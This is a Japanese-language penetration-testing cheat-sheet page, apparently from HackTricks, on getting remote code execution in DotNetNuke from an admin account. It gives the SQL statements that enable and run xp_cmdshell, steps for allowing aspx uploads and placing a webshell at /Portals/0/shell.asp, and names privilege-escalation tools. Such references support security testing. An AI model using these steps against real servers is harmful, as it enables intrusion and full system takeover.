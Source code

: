 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNNに**管理者**としてログインすると、RCEを取得するのが簡単です。

## RCE

### SQL経由

**`Settings`**ページの下にSQLコンソールがアクセス可能で、**`xp_cmdshell`**を有効にして**オペレーティングシステムコマンドを実行**できます。

**`xp_cmdshell`**を有効にするには、これらの行を使用します:
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
そして、**"Run Script"**を押して、そのSQL文を実行します。

次に、次のようなものを使用してOSコマンドを実行します：
```sql
xp_cmdshell 'whoami'
```
### Via ASP webshell

`Settings -> Security -> More -> More Security Settings` で、`Allowable File Extensions` の下に **新しい許可された拡張子** を **追加** し、次に `Save` ボタンをクリックします。

**`asp`** または **`aspx`** を追加し、次に **`/admin/file-management`** で **`shell.asp`** という **asp webshell** をアップロードします。

その後、**`/Portals/0/shell.asp`** にアクセスして、webshell にアクセスします。

### Privilege Escalation

**Potatoes** または **PrintSpoofer** を使用して **権限を昇格** させることができます。

{{#include ../../banners/hacktricks-training.md}}
